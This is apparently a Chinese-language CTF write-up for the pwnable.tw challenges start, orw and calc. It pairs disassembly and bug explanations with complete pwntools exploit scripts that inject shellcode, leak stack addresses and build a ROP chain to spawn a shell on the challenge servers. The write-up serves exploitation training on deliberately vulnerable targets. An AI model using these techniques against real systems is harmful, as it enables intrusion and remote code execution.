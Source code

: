 ```yaml
---
layout: post
title: pwnable.tw start/orw/calc
date: 2022-08-03 20:10:47
---
```


## start

**保护全关**的32位程序。

```sh
$ objdump -d -M Intel ./start 

./start:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	54                   	push   %esp
 8048061:	68 9d 80 04 08       	push   $0x804809d
 8048066:	31 c0                	xor    %eax,%eax
 8048068:	31 db                	xor    %ebx,%ebx
 804806a:	31 c9                	xor    %ecx,%ecx
 804806c:	31 d2                	xor    %edx,%edx
 804806e:	68 43 54 46 3a       	push   $0x3a465443
 8048073:	68 74 68 65 20       	push   $0x20656874
 8048078:	68 61 72 74 20       	push   $0x20747261
 804807d:	68 73 20 73 74       	push   $0x74732073
 8048082:	68 4c 65 74 27       	push   $0x2774654c
 8048087:	89 e1                	mov    %esp,%ecx
 8048089:	b2 14                	mov    $0x14,%dl
 804808b:	b3 01                	mov    $0x1,%bl
 804808d:	b0 04                	mov    $0x4,%al
 804808f:	cd 80                	int    $0x80
 8048091:	31 db                	xor    %ebx,%ebx
 8048093:	b2 3c                	mov    $0x3c,%dl
 8048095:	b0 03                	mov    $0x3,%al
 8048097:	cd 80                	int    $0x80
 8048099:	83 c4 14             	add    $0x14,%esp
 804809c:	c3                   	ret    

0804809d <_exit>:
 804809d:	5c                   	pop    %esp
 804809e:	31 c0                	xor    %eax,%eax
 80480a0:	40                   	inc    %eax
 80480a1:	cd 80                	int    $0x80
```

有3个syscall，一个write把一个字符串写到1，一个read从0读入字符到栈上，一个exit退出。显然read这边有个栈溢出漏洞，可以把返回地址覆盖掉。

首先想到直接在返回地址后面写一段shellcode执行execve("/bin/sh", 0, 0)，想盲打打中栈地址。但是试了几次发现即使是32位的程序，也有至少19个二进制位的随机变化，要十几个小时才能打中，于是算了。
然后想ROP试试，但是怎么想也想不出方法。
最后想到重新执行的思想，我可以**重新执行write和read**，把栈上的栈地址泄露出来，这样就可以把控制流精准控制成我的shellcode了。

```python
from pwn import *
context.arch = 'i386'

# p = process("./start")
p = remote("chall.pwnable.tw", 10000)

payload = b'a' * 0x14
payload += pack(0x08048087, 32)

p.recv()
p.send(payload)
mes=p.recv()
print(mes)

stack = unpack(mes[0:0+4]) - 4
shcode_addr = stack + 0x14 + 4
print(hex(stack))

payload = b'/bin/sh' + b'\x00'*13
payload += pack(shcode_addr)
payload += asm(f'''
mov eax, 11
mov ebx, {stack}
mov ecx, 0
mov edx, 0
int 0x80
''')

p.send(payload)
p.interactive()
```

## orw

程序会读入一段shellcode并执行，并且限制syscall只能调用orw。
先用read读入/home/orw/flag，然后orw就好了。

```python
from pwn import *
context.arch = 'i386'

# p = process(["strace", "./orw"])
p = remote("chall.pwnable.tw", 10001)

buf_addr = 0x0804A0C0

payload = asm(f'''
mov eax, 3
xor ebx, ebx
mov ecx, {buf_addr}
mov edx, 20
int 0x80

mov eax, 5
mov ebx, {buf_addr}
xor ecx, ecx
xor edx, edx
int 0x80

mov ebx, eax
mov eax, 3
mov ecx, {buf_addr}
mov edx, 50
int 0x80

mov eax, 4
mov ebx, 1
mov ecx, {buf_addr}
mov edx, 50
int 0x80
''')

print(p.recvS())
p.sendline(payload)
p.send(b'/home/orw/flag')
p.interactive()
```

## calc

除了PIE，其他保护全开。
是一个计算器，将读入的表达式转换成逆波兰表达法之后，用栈进行求值。

主要漏洞在于，在利用栈进行求值的时候，这个存数字的栈用\[0]存储栈的高度，用\[1]及以上空间存储数字。
所以当我输入 `+1` 的时候，这个1将会直接被加到栈的高度上，之后就可以通过修改栈高度+构造表达式。来达成栈以上地址任意读写（实际只用到了任意写）。

遇到了两个坑，一是写入一个数字的时候，比这个数字低位的数字将会受到影响；二是运算数不能为0。

前者利用倒过来写入（从上往下写）解决，后者我利用构造表达式解决（后来发现了更简单的方法，由于是将运算数与"0"进行strcmp来判断的，我可以输入000来表示0）。

```python
from pwn import *
context.arch = 'i386'

# p = process(["strace", "./calc"])
p = remote("chall.pwnable.tw", 10100)

read_addr = 0x0806e6d0
buf_addr = 0x080ecf00

int_0x80 = 0x08070880
sh_str = 0x08051ce9
pop_eax = 0x0805c34b
pop_ecx_ebx = 0x080701d1
pop_edx = 0x080701aa
pop_3 = 0x080483ac

# 360 read
# 361 0
# 362 buf
# 363 10

# 364 pop_eax
# 365 11
# 366 pop_ecx_ebx
# 367 0
# 368 sh_str
# 369 pop_edx
# 370 0
# 371 int_0x80

payload = f'''+371+{int_0x80}/1-{int_0x80}
+370+{pop_edx}
+368+{buf_addr}/1-{buf_addr}
+367+{pop_ecx_ebx}
+366+11
+365+{pop_eax}
+364+10
+362+{buf_addr}/1-{buf_addr}
+361+{pop_3}
+360+{read_addr}
'''.encode('ascii')

print(p.recvS())
p.sendline(payload)
p.send(b'/bin/sh\x00')
p.interactive()
```
